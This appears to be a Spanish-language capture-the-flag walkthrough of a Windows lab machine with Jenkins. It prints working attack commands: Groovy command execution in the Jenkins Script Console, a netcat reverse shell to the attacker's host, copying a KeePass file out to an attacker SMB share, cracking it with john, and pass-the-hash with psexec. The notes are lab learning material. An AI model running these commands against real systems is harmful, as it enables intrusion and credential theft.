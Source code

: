 ## Summary

Tags: #Windows #Wfuzz  #Jenkins #Groovy 

- IP -> 10.10.10.63
- Ports -> TCP (80,135,445,50000), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 ->  Microsoft IIS httpd 10.0
    - 5000 -> Http Jetty


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon 

```bash 
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
❯ whatweb ❮http://IP❯ -v               # Nos dara una breve descripcion de las cabeceras 
```

```bash 
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```

```bash 
❯ crackmapexec smb 10.10.10.63         # Listar los recursos del SMBv1:TRUE

❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna) 

❯ smbmap -H ❮IP❯ -u 'null'             # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

Webpage -> < IP> and < IP:50000>

```bash 
❯ wfuzz -c -t 200 --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63/FUZZ

❯ wfuzz -c -t 200 --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
```

Descubrimos una nueva ruta. 
Ahora toca investigar Jenkins:
	Que es?
	Para que sirve?


El error en la web de Jenkins es que te salga la opción: **Manage Jenkins**
	- Ir a 'Script Console'
	- Puedes crear un script en Groovy (Groovy execute shell command), lo buscamos en Google y lo colocamos en 'Script Console'
```bash 
	❯ println "whoami".execute().text                    # Nos muestre el resultado de 'whoami'
```

```bash 
❯ locate nc.exe                       # Para buscar el Netcat en nuestra maquina de atacante 
	❯ updatedb
```

## User

```bash 
# Puedes crear un script en Groovy (Groovy execute shell command)

❯ println "\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443".execute().text  

# Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443

```

```bash 
# Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
❯ impacket-smbserver smbFolder $(pwd) -smb2support        

```

```bash 
❯ rlwrap nc -nlvp 443            # Nos ponemos en escucha por el puerto 443 
```

## Root

#### 1ra parte para convertirse en root:
En **C:\\Users\\kohsuke\\Documents** Encontramos un archivo con extencion **.kdbx** 

**copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers, y asi saber que es un keepass

- Comando -> **keepassxc CEH.kdbx** Nos permite abrir el archivo keepass teniendo la passwd, de lo contrario hacemos lo siguiente
- Comando -> **keepass2john CEH.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta
- Comando -> **john --wordlist=/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

Obtenemos otro hash pero de la herramienta Keepass, por lo que podriamos hacer un 'Pass the hash'
- Comando -> **crackmapexec smb < IP TARGET> -u <‘Administrator’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

Y seriamos nt authority\\System

ADS Alternate Data Strings 
	Comando -> **dir /r /s** Para listar informacion oculta
	Comando -> **more < hm.txt:root.txt** Miramos el contenido de un archivo oculto 


#### 2da parte para convertirse en root
1:29:00 Video para la segunda parte